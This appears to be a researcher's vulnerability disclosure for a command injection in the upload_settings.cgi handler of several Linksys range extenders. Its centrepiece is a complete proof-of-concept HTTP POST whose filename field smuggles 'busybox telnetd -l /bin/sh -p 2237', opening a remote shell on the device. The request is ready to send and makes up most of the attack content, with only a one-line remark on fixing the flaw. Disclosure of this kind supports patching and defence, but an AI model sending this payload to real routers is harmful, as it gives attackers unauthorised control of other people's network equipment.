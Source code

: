 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution & Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `upload_settings.cgi` binary:

In `cgiMain` function, `filename` is directly passed by the attacker, so we can control the `filename` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `filename` as **`busybox telnetd -l /bin/sh -p 2237`** , and the router will excute it,such as:

```http
POST /cgi-bin/upload_settings.cgi HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------2768438751750201079547321191
Content-Length: 3074
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/admin/restore.shtml
Cookie: session_id=ulcFYXd1m5SX1zsdLay4JdvyXvu89Qu3
Upgrade-Insecure-Requests: 1

-----------------------------2768438751750201079547321191

Content-Disposition: form-data; name="filename"; filename="`busybox telnetd -l /bin/sh -p 2237`"
Content-Type: application/octet-stream

-----------------------------2768438751750201079547321191

Content-Disposition: form-data; name="uploadSizeLimit"

10
-----------------------------2768438751750201079547321191
Content-Disposition: form-data; name="configurationfile"

1
-----------------------------2768438751750201079547321191--
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

